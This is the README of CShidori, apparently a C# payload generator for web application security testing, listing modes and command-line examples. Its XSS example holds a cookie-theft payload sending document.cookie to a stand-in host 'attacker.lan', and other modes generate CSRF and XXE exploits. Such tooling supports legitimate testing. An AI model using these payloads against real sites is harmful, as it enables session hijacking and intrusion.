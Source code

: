 # CShidori

A C# "Thousand Birds" Payloads Generator

![](Intro.png)

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

## Supported modes and payloads

### Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* Xss

## Usage and examples

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
